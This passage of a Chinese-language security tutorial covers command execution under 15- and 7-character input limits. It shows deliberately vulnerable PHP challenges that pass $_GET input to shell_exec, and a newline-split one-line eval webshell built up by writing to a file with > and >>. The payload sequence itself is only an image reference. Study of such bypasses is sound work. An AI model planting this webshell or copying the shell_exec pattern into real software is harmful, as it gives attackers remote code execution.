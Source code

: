 因为网上已经有很多大牛写过类似的文章了，所以本篇文章是一个总结梳理学习。

## 15位可控字符下的命令执行

```php
<?php
highlight_file(__FILE__);
if(strlen($_GET[1])<15){
    echo strlen($_GET[1]);
    echo shell_exec($_GET[1]);
}else{
    exit('too long');
}
```

因为只能传入14个字符，但是没有限制命令执行的次数，所以我们的思想可以通过Linux下的>符号与>>符号写入一段一句话木马到指定文件。

```php
<?php
eval(
$_GET
[1]
);
```

经测试上述这样的一句话木马（经过换行）是可以命令执行的，所以我们可以通过传参构造出这样的一句话木马，不断传入以下Payload：

![image-20231130084701735](assets/image-20231130084701735.png)

## 7位可控字符的命令执行

```php
<?php

highlight_file(__FILE__);
if(strlen($_GET[1]<=7)){
    echo strlen($_GET[1]);
    echo '<hr/>';
    echo shell_exec($_GET[1]);
}else{
    exit('too long');
}

?>
```
